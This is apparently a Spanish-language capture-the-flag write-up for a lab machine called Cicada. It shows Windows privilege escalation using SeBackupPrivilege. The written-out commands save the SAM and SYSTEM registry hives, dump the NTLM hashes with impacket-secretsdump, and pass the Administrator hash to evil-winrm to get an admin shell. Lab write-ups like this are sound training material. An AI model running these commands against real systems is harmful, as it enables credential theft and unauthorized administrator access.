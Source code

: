 #SeBackupPrivilege

------

SeBackupPrivilege **permite la recuperación del contenido del archivo, incluso si es posible que el descriptor de seguridad del archivo no conceda ese acceso**
Normalmente se lee el archivo SAM, por que contiene cuentas de usuario de windows y sus hashes de contraseña por eso esta encriptado, y el archivo system contiene la clave de cifrado de los hashes de SAM

----

Usamos [[whoami]] con el comando `whoami /all`

![[Cicada25.png]]
Vemos que tenemos el SeBackupPrivilege

[Usamos este articulo para guiarnos en la escalada](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

Use [[cd]] para meterme en la carpeta raiz del sistema, con [[mkdir]] cree una carpeta y despues con [[reg save]]  para ver las subclaves, entradas y valores especificados del Registro en un archivo especificado.
```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
![[Cicada20.png]]

## Con [[impacket-secretsdump]] vamos a abrir los archivos y que nos dumpee la informacion

```shell
impacket-secretsdump -sam sam -system system LOCAL
```

![[Cicada21.png]]

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```


Nos da el hash *2b87e7c93a3e8a0ea4a581937016f341*


## Conexion a la maquina con [[evil-winrm]]


```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341' -P 5985
```


![[Cicada22.png]]
Ya somos administrator y podemos catear las flags
![[Cicada23.png]]
![[Cicada26.png]]

